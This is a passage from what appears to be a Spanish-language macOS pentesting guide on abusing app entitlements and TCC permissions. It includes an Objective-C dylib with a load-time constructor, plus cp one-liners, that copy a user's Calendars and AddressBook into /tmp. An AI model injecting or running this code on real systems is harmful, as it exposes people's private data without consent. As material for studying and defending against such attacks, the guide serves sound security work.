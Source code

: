 ```objectivec
```
{% endtab %}

{% tab title="Shell" %}
Copia `$HOME/Library/Application Support/AddressBook` a `/tmp/contacts`.
```bash
cp -r "$HOME/Library/Application Support/AddressBook" "/tmp/contacts"
```
{% endtab %}
{% endtabs %}

### Calendario

* **Entitlement**: `com.apple.security.personal-information.calendars`
* **TCC**: `kTCCServiceCalendar`

{% tabs %}
{% tab title="ObjectiveC" %}
Copia `$HOME/Library/Calendars` a `/tmp/calendars`.
```objectivec
#include <syslog.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#import <Foundation/Foundation.h>

// gcc -dynamiclib -framework Foundation -o /tmp/inject.dylib /tmp/inject.m

__attribute__((constructor))
void myconstructor(int argc, const char **argv)
{
freopen("/tmp/logs.txt", "w", stderr); // Redirect stderr to /tmp/logs.txt

NSFileManager *fileManager = [NSFileManager defaultManager];
NSError *error = nil;

// Get the path to the user's Pictures folder
NSString *picturesPath = [NSHomeDirectory() stringByAppendingPathComponent:@"Library/Calendars/"];
NSString *tmpPhotosPath = @"/tmp/calendars";

// Copy the contents recursively
if (![fileManager copyItemAtPath:picturesPath toPath:tmpPhotosPath error:&error]) {
NSLog(@"Error copying items: %@", error);
}

NSLog(@"Copy completed successfully.", error);

fclose(stderr); // Close the file stream
}
```
{% endtab %}

{% tab title="Shell" %}
Copia `$HOME/Library/Calendars` a `/tmp/calendars`.
```bash
cp -r "$HOME/Library/Calendars" "/tmp/calendars"
```
### Cámara
